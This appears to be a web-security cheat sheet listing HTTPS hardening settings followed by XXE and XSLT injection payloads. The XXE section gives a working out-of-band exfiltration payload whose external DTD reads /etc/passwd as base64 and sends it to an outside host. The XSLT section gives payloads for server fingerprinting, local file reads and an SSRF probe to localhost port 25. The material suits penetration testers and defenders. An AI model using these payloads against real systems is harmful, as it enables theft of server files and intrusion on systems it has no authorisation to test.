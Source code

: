 #### #HTTPS:
* http should redirect (301) to https
* HSTS (Strict-Transport-Security: max-age=31536000; includeSubDomains; preload)
    + https://hstspreload.org
* mixed contents
* upgrade-insecure-requests CSP
    + ```<meta http-equiv="Content-Security-Policy" content="upgrade-insecure-requests">```
    + ```Content-Security-Policy: upgrade-insecure-requests```


#### #XXE:
```
xml request:
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [ 
<!ENTITY % bbb SYSTEM "http://attacker/xxe.dtd"> %bbb; %encja;
]><xxe>&test;</xxe>

xxe.dtd on attacker server:
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % test SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % encja '<!ENTITY test SYSTEM "http://gros.users.warchall.net/?p=%test;">'>
```

#### #XSLT
* [version info](https://www.owasp.org/images/a/ae/OWASP_Switzerland_Meeting_2015-06-17_XSLT_SSRF_ENG.pdf)
    ```
    <?xml version="1.0" encoding="utf-8"?>
    <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
      <xsl:template match="/">
        <xsl:value-of select="system-property('xsl:version')"/>
        <xsl:value-of select="system-property('xsl:vendor')"/>
        <xsl:value-of select="system-property('xsl:vendor-url')"/>
      </xsl:template>
    </xsl:stylesheet>
    ```
* [file read with document](https://www.owasp.org/images/a/ae/OWASP_Switzerland_Meeting_2015-06-17_XSLT_SSRF_ENG.pdf)
    ```
    <xsl:template match="/">
        <xsl:value-of select="system-property('xsl:version')"/>
        <xsl:copy-of select="document('C:\file.xml')"/>
        <xsl:value-of select="document('http://localhost:25')"/>
    </xsl:template>
    ```
* standard XXE
    ```
    <!DOCTYPE xsl:stylesheet [
        <!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
        <xsl:template match="/">
            &passwd;
        </xsl:template>
    ```
